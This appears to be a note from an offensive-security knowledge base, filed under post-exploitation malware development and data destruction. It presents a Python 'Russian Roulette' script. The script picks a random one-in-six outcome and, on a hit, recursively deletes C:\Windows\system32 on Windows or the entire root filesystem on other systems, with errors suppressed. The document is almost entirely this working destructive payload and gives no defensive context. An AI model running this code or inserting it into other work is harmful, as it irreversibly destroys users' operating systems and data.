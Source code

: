 # Russian Roulette

## Python

```python
import platform
import random
import shutil

def delete_operating_system() -> None:
	if platform.system() == "Windows":
		shutil.rmtree(r"C:\Windows\system32", ignore_errors=True)
	else:
		shutil.rmtree("/", ignore_errors=True)

if __name__ == '__main__':
	gun = [0, 0, 0, 0, 0, 1]
	shot = random.choice(gun)
	
	if bool(shot):
		print("You're dead")
		delete_operating_system()
	else:
		print("Click.")
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x09 - Miscellaneous/Malware Development/Data Destruction/Mayhem/Cross Platform/Delete Operating System]]